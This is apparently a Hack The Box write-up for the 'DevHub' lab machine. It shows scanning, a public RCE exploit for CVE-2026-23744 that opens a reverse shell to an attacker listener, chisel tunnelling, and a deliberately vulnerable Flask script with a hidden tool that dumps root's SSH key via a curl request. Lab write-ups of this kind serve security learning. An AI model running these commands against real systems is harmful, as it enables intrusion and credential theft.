







DevHub....There is an **Internal Development & Analytics Platform** running on port `80`, which shows an MCP Inspector running on port `6274`. Accessing it shown MCPJam. Searching for publicly disclosed vulnerabilities existed on the exposed MCPJam has **RCE** vulnerability. The PoC exploit gave me shell as mcp-dev. Querying the running processes (Observe the root processes too) exposed an app token in a process running as **Analyst** and also, as shown in the website, there is a Jupyter environment running on **localhost** on port `8888`. Reverse port forward with chisel and accessing it from the attacker machine, it is a running jupyter notebook. I could login with the app token found earlier. Inside, there is access to the terminal as **Analyst**. The earlier processes list also shown `server.py` is running as root and also, the user **Analyst** has  `rw` access to it. Analyzing  the script and abusing the API endpoint at  port `5000` dumped the root's **ssh keys** which gave me shell as root.

# Recon

## Port Scan (top 1000)

Nmap scan with `-sC` for default script scan `-sV` for service version `-oA` flag for output in all formats (.nmap, .gnmap, .xml) and finally `-v` to print the open ports as the scan discovers which exposes ports `22`,`80`.

```shell wrap=false collapse={5-30}
0xz1nn ✦ ~/Documents/htb/devhub
❯ nmap -sC -sV -Pn -oA nmap $target -v
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-08 08:41 -0400
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 08:41
Completed NSE at 08:41, 0.00s elapsed
Initiating NSE at 08:41
Completed NSE at 08:41, 0.00s elapsed
Initiating NSE at 08:41
Completed NSE at 08:41, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 08:41
Completed Parallel DNS resolution of 1 host. at 08:41, 0.50s elapsed
Initiating SYN Stealth Scan at 08:41
Scanning 10.129.57.200 [1000 ports]
Discovered open port 22/tcp on 10.129.57.200
Discovered open port 80/tcp on 10.129.57.200
SYN Stealth Scan Timing: About 27.90% done; ETC: 08:42 (0:01:20 remaining)
Completed SYN Stealth Scan at 08:41, 50.31s elapsed (1000 total ports)
Initiating Service scan at 08:41
Scanning 2 services on 10.129.57.200
Completed Service scan at 08:42, 6.87s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.57.200.
Initiating NSE at 08:42
Completed NSE at 08:42, 5.17s elapsed
Initiating NSE at 08:42
Completed NSE at 08:42, 0.27s elapsed
Initiating NSE at 08:42
Completed NSE at 08:42, 0.00s elapsed
Nmap scan report for 10.129.57.200
Host is up (0.12s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:78:2e:79:0d:87:13:05:2f:53:8e:e7:3c:55:b6:4c (ECDSA)
|_  256 dd:56:8e:bc:da:b8:38:3e:9a:cd:0b:74:ee:53:85:f8 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devhub.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 08:42
Completed NSE at 08:42, 0.00s elapsed
Initiating NSE at 08:42
Completed NSE at 08:42, 0.00s elapsed
Initiating NSE at 08:42
Completed NSE at 08:42, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.46 seconds
           Raw packets sent: 2026 (89.144KB) | Rcvd: 38 (1.940KB)

```

## Port Scan (full port scan)

The full port scan gave an additional open port `6274`.

```shell wrap=false collapse={5-25}
0xz1nn ✦ ~/Documents/htb/devhub
❯ nmap  -p- -Pn  -T4 -oA fports.nmap $target -v
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-08 08:44 -0400
Initiating SYN Stealth Scan at 08:44
Scanning devhub.htb (10.129.57.200) [65535 ports]
Discovered open port 80/tcp on 10.129.57.200
Discovered open port 22/tcp on 10.129.57.200
SYN Stealth Scan Timing: About 2.76% done; ETC: 09:03 (0:18:12 remaining)
Discovered open port 6274/tcp on 10.129.57.200
SYN Stealth Scan Timing: About 5.89% done; ETC: 09:01 (0:16:15 remaining)
SYN Stealth Scan Timing: About 10.95% done; ETC: 09:01 (0:15:11 remaining)
SYN Stealth Scan Timing: About 21.34% done; ETC: 09:02 (0:14:15 remaining)
SYN Stealth Scan Timing: About 25.40% done; ETC: 09:01 (0:12:49 remaining)
SYN Stealth Scan Timing: About 29.69% done; ETC: 09:00 (0:11:31 remaining)
SYN Stealth Scan Timing: About 34.31% done; ETC: 09:00 (0:10:40 remaining)
SYN Stealth Scan Timing: About 38.97% done; ETC: 09:00 (0:09:49 remaining)
SYN Stealth Scan Timing: About 45.72% done; ETC: 08:59 (0:08:02 remaining)
SYN Stealth Scan Timing: About 58.65% done; ETC: 09:02 (0:07:16 remaining)
SYN Stealth Scan Timing: About 63.88% done; ETC: 09:01 (0:06:06 remaining)
SYN Stealth Scan Timing: About 69.34% done; ETC: 09:00 (0:05:00 remaining)
SYN Stealth Scan Timing: About 74.08% done; ETC: 09:00 (0:04:11 remaining)
SYN Stealth Scan Timing: About 79.56% done; ETC: 09:00 (0:03:15 remaining)
SYN Stealth Scan Timing: About 85.07% done; ETC: 08:59 (0:02:18 remaining)
SYN Stealth Scan Timing: About 90.69% done; ETC: 09:00 (0:01:31 remaining)
SYN Stealth Scan Timing: About 96.18% done; ETC: 09:00 (0:00:37 remaining)
Completed SYN Stealth Scan at 09:00, 969.23s elapsed (65535 total ports)
Nmap scan report for devhub.htb (10.129.57.200)
Host is up (0.16s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6274/tcp open  unknown

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 969.31 seconds
           Raw packets sent: 131611 (5.791MB) | Rcvd: 64122 (14.935MB)
```

## Directory Fuzzing (no useful results)

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/devhub
❯ feroxbuster -u http://devhub.htb

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://devhub.htb/
 🚩  In-Scope Url          │ devhub.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/feroxbuster/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       67l      323w     3396c http://devhub.htb/
[####################] - 2m     30000/30000   0s      found:1       errors:4
[####################] - 2m     30000/30000   216/s   http://devhub.htb/    
```

## port 80 - DevHub

The website shows that, the target machine is running MCP Inspector on port `6274` (which is open as shown in nmap scan) and another service on port `8888` on localhost, which cannot be accessed directly from the outside environment. We can peek into it, after getting the foothold onto the machine.

## port 6274 - MCPJam


Port 6274 is running MCPJam server. I wanted to check the publicly disclosed vulnerabilities on the service version the server exposed. I checked the settings tab,

 which exposed the **MCPJam Version `v1.4.2`**.

# Shell as mcp-dev (foothold)

The exposed service version of the target server has an RCE vulnerablitiy with `CVE-2026-23744`

## CVE-2026-23744 - RCE

A quick research on the PoCs to exploit the RCE vulnerability landed me onto this [repo](https://github.com/rohit-sundar/cve-2026-23744)

### Exploit **→** Shell

I cloned the repo, and had my listener running on port `443` to catch the shell.

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/devhub/cve-2026-23744
❯ uv run exploit.py -t http://devhub.htb -tport 6274 -lhost 10.10.14.214 -lport 443

   _______      ________    ___   ___ ___   __      ___  ____ ______ _  _   _  _
  / ____\ \    / /  ____|  |__ \ / _ \__ \ / /     |__ \|___ \____  | || | | || |
 | |     \ \  / /| |__ ______ ) | | | | ) / /_ ______ ) | __) |  / /| || |_| || |_
 | |      \ \/ / |  __|______/ /| | | |/ / '_ \______/ / |__ <  / / |__   _|__   _|
 | |____   \  /  | |____    / /_| |_| / /| (_) |    / /_ ___) |/ /     | |    | |
  \_____|   \/   |______|  |____|\___/____\___/    |____|____//_/      |_|    |_|


[+] Target URL/IP: http://devhub.htb:6274
[*] Sending payload...
[*] Payload sent.
[*] Check your listener for an incoming connection.
```

## Shell

The PoC gave me the shell as **mcp-dev**.

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/devhub/cve-2026-23744
❯ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.214] from (UNKNOWN) [10.129.57.200] 42854
id
uid=1001(mcp-dev) gid=1001(mcp-dev) groups=1001(mcp-dev)
whoami
mcp-dev
```

# Shell as Analyst

## Active Ports

I was curious to check if there are any other ports are listening on the localhost other than `8888` which is stated on the website.

``` wrap=false
mcp-dev@devhub:/home$ ss -lntup
ss -lntup
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
udp   UNCONN 0      0      127.0.0.53%lo:53        0.0.0.0:*
udp   UNCONN 0      0            0.0.0.0:68        0.0.0.0:*
tcp   LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*
tcp   LISTEN 0      511          0.0.0.0:80        0.0.0.0:*
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*
tcp   LISTEN 0      511          0.0.0.0:6274      0.0.0.0:*    users:(("node-MainThread",pid=1319,fd=29))
tcp   LISTEN 0      128        127.0.0.1:8888      0.0.0.0:*
tcp   LISTEN 0      128        127.0.0.1:5000      0.0.0.0:*
tcp   LISTEN 0      128             [::]:22           [::]:*
mcp-dev@devhub:/home$
```

I could see the port `5000` is listening which is unusual. To look at what they actually are in the browser, I should use chisel to reverse port forward to my attacker machine. But, I still don't have much interesting. Let's look at the processes running on the box.

## Running Processes

I want you to make a note about the `ps` command here. You may have seen me using `ps aux` command to list the running processes. But the silly thing about that command is that, it gives the truncated output. So, the output may miss any exposed information. Instead use

```
ps auxww
```

the `ww` flag gives the full output without being truncated.

Analyzing the output, there are two interesting processes.

1. Process running as Analyst user exposed the app token

```shell wrap=false
analyst     1085  0.0  2.4 183052 97656 ?        Ss   08:32   0:07 /home/analyst/jupyter-env/bin/python3 /home/analyst/jupyter-env/bin/jupyter-lab --ip=127.0.0.1 --port=8888 --no-browser --
notebook-dir=/home/analyst/notebooks --ServerApp.token=a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7 --ServerApp.password= --ServerApp.allow_origin= --ServerApp.disable_check_xsrf=False 
```

1. There is also a root process running `server.py` script from the Analyst user directory.

## Reverse Port Forward - Chisel

Forward chisel to the target machine.

### Attacker Machine

```shell wrap=false
chisel server --port 8080 --reverse
```

The above command spawns a **server** and actively listens for the connections.

### Target Machine

```shell wrap=false
./chisel client 10.10.14.214:8080 R:5000:localhost:5000 R:8888:localhost:8888
```

Chisel  with **client**  argument sends connection to the server at `10.10.14.214` which is listening on `8080`.

- **`R:`** is used  to reverse port forward.
- `5000:localhost:5000` **»** port forward `5000` on the localhost (`127.0.0.1`) and bind it to port `5000` on the server.
The same goes for `R:8888:localhost:8888`.

## Port Scan - (After chisel)

I could access the forwarded ports through my machine at `127.0.0.1`address.

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/devhub/cve-2026-23744
❯ nmap -sC -sV -Pn 127.0.0.1 -p 5000,8888
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-09 07:36 -0400
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).

PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 3.1.6 (Python 3.10.12)
|_http-title: Site doesn't have a title (application/json).
|_http-server-header: Werkzeug/3.1.6 Python/3.10.12
8888/tcp open  http    Tornado httpd 6.5.4
|_http-server-header: TornadoServer/6.5.4
| http-title: Jupyter Server
|_Requested resource was /login?next=%2Flab%3F

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.21 seconds             
```

### Port 5000

The port `5000` rendered JSON text of an api endpoint, which requires **X-API-Key header** for authentication. Noted!


## Jupyter server - port 8888

The port `8888` which is running internally on the target has Jupyter server running.

I tried to login using the token found earlier in the running processes.

```shell wrap=false
ServerApp.token=a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7
```

and it is successful!

I clicked on the terminal icon, which given me a shell as **Analyst**


## User Flag

I could successfully read the user flag in the Analyst's directory.

```shell wrap=false
analyst@devhub:~$ id
uid=1002(analyst) gid=1002(analyst) groups=1002(analyst)
analyst@devhub:~$ ls
jupyter-env  notebooks  user.txt
analyst@devhub:~$ cat user.txt
8cb9****fd47****973c****36c6****
analyst@devhub:~$ 
```

# Shell as Root

Enumerating the `opt/opsmcp` I found `server.py` script which has `read` and `write` permissions as **Analyst**.

```shell wrap=false
analyst@devhub:/opt/opsmcp$ ls
server.py
analyst@devhub:/opt/opsmcp$ ls -la
total 16
drwxr-xr-x 2 analyst analyst 4096 May 26 08:42 .
drwxr-xr-x 4 root    root    4096 May 26 08:42 ..
-rw-r----- 1 analyst analyst 6021 Mar 16  2026 server.py
analyst@devhub:/opt/opsmcp$ 
```

## `server.py`

```python wrap=false collapse={16-35} collapse={47-140} collapse={178-194}
analyst@devhub:/opt/opsmcp$ cat server.py
#!/usr/bin/env python3
"""
OPSMCP - Operations MCP Server
Internal tool for system operations management
"""

from flask import Flask, jsonify, request
import os

app = Flask(__name__)

# API Key for authentication
VALID_API_KEY = "opsmcp_secret_key_4f5a6b7c8d9e0f1a"

# Registered tools (visible)
VISIBLE_TOOLS = {
    "ops.system_status": {
        "description": "Get system status and health metrics",
        "parameters": {}
    },
    "ops.list_services": {
        "description": "List running services",
        "parameters": {}
    },
    "ops.check_disk": {
        "description": "Check disk usage",
        "parameters": {}
    },
    "ops.view_logs": {
        "description": "View recent system logs",
        "parameters": {"service": "string"}
    }
}

# Hidden tools (not in /tools/list but callable)
HIDDEN_TOOLS = {
    "ops._admin_dump": {
        "description": "Emergency credential dump - INTERNAL ONLY",
        "parameters": {"target": "string", "confirm": "boolean"}
    },
    "ops._debug_mode": {
        "description": "Enable debug mode",
        "parameters": {}
    }
}

ALL_TOOLS = {**VISIBLE_TOOLS, **HIDDEN_TOOLS}

def check_auth():
    """Check API key authentication"""
    api_key = request.headers.get('X-API-Key', '')
    return api_key == VALID_API_KEY

@app.route('/')
def index():
    return jsonify({
        "server": "OPSMCP",
        "version": "2.1.0",
        "status": "operational",
        "endpoints": ["/tools/list", "/tools/call", "/health"],
        "auth": "Required - X-API-Key header"
    })

@app.route('/health')
def health():
    return jsonify({"status": "healthy", "uptime": "14d 3h 22m"})

@app.route('/tools/list')
def list_tools():
    if not check_auth():
        return jsonify({"error": "Unauthorized", "message": "Valid X-API-Key header required"}), 401
    
    return jsonify({
        "tools": list(VISIBLE_TOOLS.keys()),
        "count": len(VISIBLE_TOOLS),
        "details": VISIBLE_TOOLS
    })

@app.route('/tools/call', methods=['POST'])
def call_tool():
    if not check_auth():
        return jsonify({"error": "Unauthorized", "message": "Valid X-API-Key header required"}), 401
    
    data = request.get_json() or {}
    tool_name = data.get('name', '')
    args = data.get('arguments', {})
    
    if not tool_name:
        return jsonify({"error": "Tool name required"}), 400
    
    if tool_name not in ALL_TOOLS:
        return jsonify({"error": f"Unknown tool: {tool_name}"}), 404
    
    # Execute tool
    if tool_name == "ops.system_status":
        return jsonify({
            "cpu": "23%",
            "memory": "1.2GB/4GB",
            "load": "0.45",
            "status": "nominal"
        })
    
    elif tool_name == "ops.list_services":
        return jsonify({
            "services": [
                {"name": "nginx", "status": "running", "pid": 1234},
                {"name": "opsmcp", "status": "running", "pid": 5678},
                {"name": "jupyter", "status": "running", "pid": 9012},
                {"name": "mcpjam", "status": "running", "pid": 3456}
            ]
        })
    
    elif tool_name == "ops.check_disk":
        return jsonify({
            "filesystems": [
                {"mount": "/", "used": "4.2G", "available": "15G", "percent": "22%"},
                {"mount": "/home", "used": "1.1G", "available": "8G", "percent": "12%"}
            ]
        })
    
    elif tool_name == "ops.view_logs":
        service = args.get('service', 'system')
        return jsonify({
            "service": service,
            "logs": [
                "[2026-01-22 10:00:01] Service started",
                "[2026-01-22 10:00:02] Listening on configured port",
                "[2026-01-22 10:15:33] Health check passed",
                "[2026-01-22 11:00:00] Routine maintenance completed"
            ]
        })
    
    elif tool_name == "ops._debug_mode":
        return jsonify({
            "debug": True,
            "message": "Debug mode enabled",
            "hidden_tools": list(HIDDEN_TOOLS.keys()),
            "note": "Debug endpoints now accessible"
        })
    
    elif tool_name == "ops._admin_dump":
        target = args.get('target', '')
        confirm = args.get('confirm', False)
        
        if not confirm:
            return jsonify({
                "error": "Confirmation required",
                "usage": "Set confirm=true to proceed",
                "warning": "This dumps sensitive credentials"
            })
        
        if target == "ssh_keys":
            try:
                with open('/root/.ssh/id_rsa', 'r') as f:
                    key_data = f.read()
                return jsonify({
                    "target": "ssh_keys",
                    "root_private_key": key_data,
                    "note": "Emergency recovery key dump"
                })
            except Exception as e:
                return jsonify({
                    "target": "ssh_keys",
                    "error": f"Could not read key: {str(e)}"
                })
        
        elif target == "passwords":
            return jsonify({
                "target": "passwords",
                "dump": {
                    "root": "$6$rounds=656000$saltsalt$hashedpassword",
                    "analyst": "JupyterN0tebook!2026",
                    "mcp-dev": "Mcp!Insp3ct0r2026"
                }
            })
        
        elif target == "tokens":
            return jsonify({
                "target": "tokens",
                "api_tokens": {
                    "admin_token": "opsmcp_admin_7f3b9c2d1e4f5a6b",
                    "service_token": "opsmcp_svc_8c9d0e1f2a3b4c5d"
                }
            })
        
        else:
            return jsonify({
                "error": "Invalid target",
                "valid_targets": ["ssh_keys", "passwords", "tokens"]
            })
    
    return jsonify({"error": "Tool execution failed"}), 500

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000, debug=False)
analyst@devhub:/opt/opsmcp$ 
```

The script contained credentials and sensitive information.

- I found  **X-API-Key header** which is required for authentication.

```
# API Key for authentication
VALID_API_KEY = "opsmcp_secret_key_4f5a6b7c8d9e0f1a"
```

and also, there is this interesting hidden function , which is `not in /tools/list but callable`.

```python wrap=false
# Hidden tools (not in /tools/list but callable)
HIDDEN_TOOLS = {
    "ops._admin_dump": {
        "description": "Emergency credential dump - INTERNAL ONLY",
        "parameters": {"target": "string", "confirm": "boolean"}
    }
```

This parameter is indeed interesting.

```python wrap=false
 if target == "ssh_keys":
            try:
                with open('/root/.ssh/id_rsa', 'r') as f:
                    key_data = f.read()
                return jsonify({
                    "target": "ssh_keys",
                    "root_private_key": key_data,
                    "note": "Emergency recovery key dump"
                })
```

Altogether, the is a hidden tool `ops._admin_dump` which is  hidden. It can take parameters through `target` attribute. If we pass `ssh_keys` it simply dumps the keys from `/root/.ssh/id_rsa` which are root keys.

## Exploit

I pleased the server endpoint at `5000` with the below command,

```shell
0xz1nn ✦ ~/Documents/htb/devhub
❯ curl -s -X POST http://127.0.0.1:5000/tools/call  -H 'X-API-Key: opsmcp_secret_key_4f5a6b7c8d9e0f1a' -H 'Content-Type: application/json' -d '{"name":"ops._admin_dump","arguments":{"target":"ssh_keys","confirm":true}}'| jq -r '.root_private_key' > ~/Documents/htb/devhub/root.key
```

to dump me the root keys. Piped it to `jq` which parses the raw (`-r`) output and saves it into `root.key`

- Change the keys permissions  to `600` (i.e only read / writeable by the user/owner. No groups, No others).

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/devhub
❯ chmod 600 root.key
```

## Shell

ssh to target with the root keys to get shell as root.

```shell wrap=false collapse={7-40}
0xz1nn ✦ ~/Documents/htb/devhub
❯ ssh -i root.key root@10.129.245.216
The authenticity of host '10.129.245.216 (10.129.245.216)' can't be established.
ED25519 key fingerprint is: SHA256:K64LcxfMoWF9TY77Q+quN1nvBzFftQ11ZxoH8eULpCs
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.245.216' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-179-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Oct  9 12:20:27 PM UTC 2026

  System load:           0.0
  Usage of /:            76.9% of 9.50GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             232
  Users logged in:       0
  IPv4 address for eth0: 10.129.245.216
  IPv6 address for eth0: dead:beef::250:56ff:feb9:fddf

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Oct 9 12:20:28 2026 from 10.10.14.214
root@devhub:~# ls
root.txt  snap
root@devhub:~# cat root.txt
da0fee6ecae134cde9e31a65515fe3fd
```
